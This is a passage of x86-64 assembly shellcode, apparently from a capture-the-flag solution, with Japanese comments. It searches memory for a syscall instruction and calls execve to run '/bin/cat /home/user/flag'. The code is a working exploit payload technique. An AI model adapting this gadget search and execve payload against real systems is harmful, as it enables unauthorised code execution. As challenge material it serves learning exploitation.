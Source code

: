         mov rdi, rbx
        jmp search_syscall
     
    slnext:
        sub rdi, 8
        jmp search_libc
     
    //syscall (0f 05)を探索
    search_syscall:
        mov ah, 0x05
        mov al, 0x0f
        cmp [rdi], ax
        je exec
        dec rdi
        jmp search_syscall
     
    //cat /home/user/flag
    exec:
        mov r8, rdi
        xor rdx, rdx
        lea rdi, [rip + filename]
        push 0
        lea rax, [rip + arg]
        push rax
        push rdi
        mov rsi, rsp
        mov rax, 0x3b
        jmp r8
     
    filename: .ascii "/bin/cat\0"
    arg: .ascii "/home/user/flag\0"
